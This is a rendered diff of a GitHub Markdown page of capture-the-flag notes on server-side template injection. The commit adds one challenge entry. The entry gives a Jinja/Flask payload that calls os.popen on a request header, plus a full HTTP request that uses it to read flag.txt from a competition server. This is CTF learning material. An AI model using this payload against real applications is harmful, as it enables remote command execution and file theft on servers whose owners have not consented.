

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_10_challs.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/challenges/SSTI_10_challs.md
+++ b/challenges/SSTI_10_challs.md
@@ -54,4 +54,20 @@ And printing flag.txt file.
 </div>
 ```
 
-- ##
+- ## (Unkown ctf)
+  This chall required a payload with '' blacklisted
+  Payload: ``` {{url_for.__globals__.os.popen(request.headers.hack).read()}}```
+  It was required to supply the executable commands in the request header named ‘hack’. To achieve this, intercept the form’s POST request using Burp
+  Suite and modify the parameters accordingly.
+```
+GET /{{url_for.__globals__.os.popen(request.headers.hack).read()}} HTTP/1.1
+hack: cat ../flag.txt
+Host: chal.pctf.competitivecyber.club:5555
+Upgrade-Insecure-Requests: 1
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Referer: http://chal.pctf.competitivecyber.club:5555/
+Accept-Encoding: gzip, deflate
+Accept-Language: en-US,en;q=0.9
+Connection: close
+```
````
